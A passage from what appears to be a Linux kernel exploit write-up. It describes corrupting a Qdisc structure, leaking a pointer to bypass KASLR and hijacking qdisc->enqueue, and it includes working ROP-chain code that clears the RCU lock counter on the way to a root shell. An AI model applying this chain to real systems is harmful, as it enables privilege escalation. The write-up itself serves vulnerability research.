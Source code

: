 ```c
	spinlock_t		busylock ____cacheline_aligned_in_smp;
	spinlock_t		seqlock;

	struct rcu_head		rcu;
	netdevice_tracker	dev_tracker;
	/* private data */
	long privdata[] ____cacheline_aligned;
};
```

After corrupting the user key, I leaked the `tbf_qdisc_ops` pointer from the `Qdisc` structure so I could bypass KASLR. (Step 2.1 in exploit.c)

## RIP-Control

In the final steps, I freed all the keys in dyn-kmalloc-1k including the one corrupted by Qdisc, and I reallocated them, overwriting the Qdisc structure. I overwritten the `qdisc->enqueue()` function pointer with a stack pivot gadget storing the rest of the ROP-chain in the same chunk. (Step 3.0 - 3.1 in exploit.c)

Finally, I sent packets to the network interface to trigger the call to [dev_qdisc_enqueue()](https://elixir.bootlin.com/linux/v6.1/source/net/core/dev.c#L3779) in [__dev_xmit_skb()](https://elixir.bootlin.com/linux/v6.1/source/net/core/dev.c#L3825), this way I could hijack control flow. (Step 3.2 in exploit.c)

Note that when `qdisc->enqueue()` is called, RSI (and RBP in other kernel builds) already contains the address of the corrupted Qdisc chunk itself, where the ROP-chain was stored, so it is not necessary to leak a heap address / know the address of the corrupted chunk.

## Post-RIP

After hijacking control flow, two problems arose. Since `qdisc->enqueue()` is called in an atomic / RCU read-side critical section, when I returned to user space, instead of getting a root shell, the kernel panicked showing two error messages:

- `"Illegal context switch in RCU read-side critical section"` 

- `"BUG: scheduling while atomic: [...]"`

Fortunately, I managed to bypass both of them.

To bypass "RCU read-side critical section", a write-what-where gadget was used in the ROP-chain to set `current->rcu_read_lock_nesting = 0`.

```c
	// current = find_task_by_vpid(getpid())
	rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
	rop[idx++] = getpid();                   // pid
	rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

	// current += offsetof(struct task_struct, rcu_read_lock_nesting)
	rop[idx++] = kbase + 0xffffffff810a08ae; // pop rsi ; ret
	rop[idx++] = 0x46c;                      // offsetof(struct task_struct, rcu_read_lock_nesting)
	rop[idx++] = kbase + 0xffffffff8107befa; // add rax, rsi ; jmp 0xffffffff82404440 (retpoline)

	// current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
	rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
	rop[idx++] = 0;                          // 0
	rop[idx++] = kbase + 0xffffffff8167104b; // mov qword ptr [rax], rcx ; jmp 0xffffffff82404440 (retpoline)
```
